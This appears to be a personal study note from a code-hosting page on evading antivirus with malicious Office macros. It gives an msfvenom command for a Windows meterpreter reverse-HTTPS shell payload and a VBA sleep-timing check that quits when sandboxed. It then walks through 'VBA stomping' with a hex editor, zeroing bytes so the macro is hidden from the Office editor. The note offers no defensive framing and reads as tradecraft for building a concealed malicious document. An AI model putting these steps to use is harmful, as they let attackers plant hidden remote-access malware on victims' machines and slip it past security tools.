 Remember to use 32 bit 
msfvenom -p windows/meterpreter/reverse_https lhost=eth0 lport=443 EXITFUN=thread -f csharp

Basic bypass with encryption,sleep 

added
sleep functions

```
Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long

    Dim res As Long
    Dim t1 As Date
    Dim t2 As Date
    Dim time As Long
    
    t1 = Now()
    Sleep (2000)
    t2 = Now()
    time = DateDiff("s", t1, t2)
    If time < 2 Then
        Exit Function
    End If
```

Encrypter from program.cs 
![image](https://github.com/user-attachments/assets/4fe84bce-e469-4c81-9f70-348b58db7ba7)


Not so basic is vba stomping which uses flexhex
replacing with null bytes
what the GUI editor uses to link the displayed macros
remove this link in the editor could hide our macro
from within the graphical Office VBA editor
![image](https://github.com/user-attachments/assets/82a324f9-ea3c-4feb-ac9b-f8119802ab65)

Do this by inserting zero block
![image](https://github.com/user-attachments/assets/028330e6-1303-4001-9054-06bea26c51f9)

![image](https://github.com/user-attachments/assets/5a08bbc1-93f1-45db-ae30-2f948af47a24)

No longer show macro
![image](https://github.com/user-attachments/assets/6ab1c362-7729-448a-9435-0a6ea27ef6bb)

editing pcode
partially-compressed version of the VBA source code 
![image](https://github.com/user-attachments/assets/cb5a3f61-d377-48e5-9334-7a5d3b5df273)

We need to select all attribute vb name to the remaining byte
![image](https://github.com/user-attachments/assets/fbf3b889-afb1-4aaa-b6ba-a39d5f79d9a0)

![image](https://github.com/user-attachments/assets/cc2786f2-fe61-47f8-b3d2-a8d8790e3fe6)

edit these to zero blocks
![image](https://github.com/user-attachments/assets/f38cdcd0-36cf-4978-be5b-ce4224d3e8d6)

alot better now
![image](https://github.com/user-attachments/assets/7eed2a50-c4e2-4876-85dc-32219f80e61a)

original 
![image](https://github.com/user-attachments/assets/fdbf6641-4ef6-41e6-9ea0-96c57bc12c0f)


